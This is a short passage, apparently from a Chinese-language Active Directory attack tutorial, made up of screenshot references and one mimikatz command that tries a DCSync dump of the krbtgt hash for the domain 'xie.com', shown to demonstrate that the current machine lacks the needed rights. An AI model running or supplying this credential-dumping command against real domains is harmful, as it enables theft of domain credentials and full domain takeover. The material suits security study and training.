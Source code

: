 ![截图](3d05274d681ba084ea2677546520970f.png)

首先执行如下命令可以看到本机并没有权限导出域内任意用户哈希。

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit"
```

![截图](f9ecb09ccac86eec0b666dd61491377d.png)
